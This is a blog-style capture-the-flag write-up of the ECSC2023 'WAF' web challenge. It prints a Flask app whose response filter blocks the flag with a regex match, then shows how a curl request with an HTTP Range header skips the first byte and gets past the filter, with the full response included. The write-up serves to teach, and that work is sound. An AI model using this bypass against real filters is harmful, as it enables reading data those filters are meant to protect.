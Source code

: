 ```yaml
---
title: WAF - ECSC2023
author: k1k9
categories: [ecsc23, web]
tags: [ctf, ecsc23]
---
```

Points: 114
Solves: 43

Flag on our website is protected by the state of the art web application firewall!
https://waf.ecsc23.hack.cert.pl/ 

```python
import re
from flask import Flask, Response, send_file

app = Flask(__name__)


@app.after_request
def waf(response: Response) -> Response:
    response.direct_passthrough = False
    if re.match(b'ecsc23{\\w+}', response.data):
        return Response(status=401)
    else:
        return response


@app.route("/flag")
def get_flag() -> Response:
    return send_file("flag.txt")


@app.route("/")
def get_root() -> Response:
    return "<h1>This site is protectedy by WAF</h1>"


if __name__ == "__main__":
    app.run(host="0.0.0.0")

```

## First look
As we see the WAF works pretty simple here, just by checking the response content. WAF checks is the returned content contain's a flag by: ```re.match(b'ecsc23{\\w+}', response.data)``` with means basiclly that returned conent cannot be something like this: ```ecsc23{abc_123}```.

Wherever we go on website, firstly ```waf()``` function executes and then (if ```if``` returns false) pass response to us. So we can't bypass WAF (??).

## Second opionion
Later, I checked the site and there was nothing interesting there except the version of the server ```nginx 1.18.0``` (surprising!). This version has many vulnerabilities, regreding to snyk.io 35 critical, 60 High . But after checking few I thinks this is not the point. 

## Gi ve me th e  fl ag
The only way I could think of was to force the server to return my response in a different format so that WAF would not catch the string contained in the regex.
After reading the HTTP headers, I found nothing of interest. But the thought occurred to me that I could force the server to send me a response in parts, that way WAF would never catch the full text and thus the regex condition would not be fulfilled.

And here comes, all on white ```Range``` header. From [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range):
![Alt text](/assets/posts/waf/mdn.png)

So let's try it. We just skip first letter ```e``` so the regex ```'ecsc23{\\w+}'``` will not be met:
```sh
$ curl -H "Range: bytes=1-" -i https://waf.ecsc23.hack.cert.pl/flag

HTTP/1.1 206 PARTIAL CONTENT
Server: nginx/1.18.0
Date: Sat, 22 Jul 2023 12:26:04 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 42
Connection: keep-alive
Content-Disposition: inline; filename=flag.txt
Last-Modified: Thu, 13 Jul 2023 14:20:41 GMT
Cache-Control: no-cache
ETag: "1689258041.0-43-532153544"
Accept-Ranges: bytes
Content-Range: bytes 1-42/43

csc23{FLAG_CONTENT}
```